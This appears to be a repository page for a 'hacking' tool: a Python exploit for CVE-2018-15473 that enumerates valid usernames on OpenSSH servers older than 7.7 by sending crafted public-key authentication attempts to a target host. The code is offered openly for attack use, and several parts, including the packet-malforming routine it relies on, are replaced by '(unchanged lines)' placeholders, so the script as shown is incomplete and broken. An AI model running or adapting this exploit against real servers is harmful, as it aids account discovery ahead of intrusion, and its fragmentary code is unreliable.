 # SSH-SHELL-TOOL
Bast tool #hacking

#!/usr/bin/env python

import logging  # Add this line
import argparse
import paramiko
import multiprocessing
import socket
import sys
import json
# store function we will overwrite to malform the packet
# ... (rest of your script)
# Exploit: OpenSSH 7.7 - Username Enumeration
# Author: Justin Gardner
# Date: 2018-08-20
# Software: https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/openssh-7.7.tar.gz
# Affected Versions: OpenSSH version < 7.7
# CVE: CVE-2018-15473

# ... (unchanged lines)

# create custom exception
class BadUsername(Exception):
    def __init__(self):
        pass

# ... (unchanged lines)

# create function to perform authentication with malformed packet and desired username
def checkUsername(username, tried=0):
    sock = socket.socket()
    sock.connect((args.hostname, args.port))
    # instantiate transport
    transport = paramiko.transport.Transport(sock)
    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        # server was likely flooded, retry up to 3 times
        transport.close()
        if tried < 4:
            tried += 1
            return checkUsername(username, tried)
        else:
            print('[-] Failed to negotiate SSH transport')
    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
    except BadUsername:
        return (username, False)
    except paramiko.ssh_exception.AuthenticationException:
        return (username, True)
    # Successful auth(?)
    raise Exception("There was an error. Is this the correct version of OpenSSH?")

# ... (unchanged lines)

# get rid of paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

# ... (unchanged lines)
